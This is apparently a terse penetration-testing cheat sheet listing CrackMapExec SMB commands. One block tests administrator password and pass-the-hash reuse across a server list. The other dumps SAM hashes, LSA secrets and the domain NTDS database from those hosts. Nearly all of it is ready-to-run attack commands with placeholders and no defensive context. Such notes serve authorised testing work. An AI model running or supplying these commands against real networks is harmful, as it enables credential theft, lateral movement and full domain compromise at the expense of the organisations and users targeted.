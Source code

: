# Crackmapexec

Check for authentication access

```
crackmapexec smb server_scope.txt -u administrator -p <password> --local-auth
crackmapexec smb server_scope.txt -u administrator -H <hash> --local-auth
crackmapexec smb server_scope.txt -u administrator -H <hash> --local-auth > crackmapexec-administrator-password-reuse.txt
```

Obtain passwords from the hosts

```
crackmapexec smb server_scope.txt -u administrator -H <hash> --local-auth --sam
crackmapexec smb server_scope.txt -u administrator -H <hash> --local-auth --lsa
crackmapexec smb server_scope.txt -u administrator -H <hash> --ntds
```
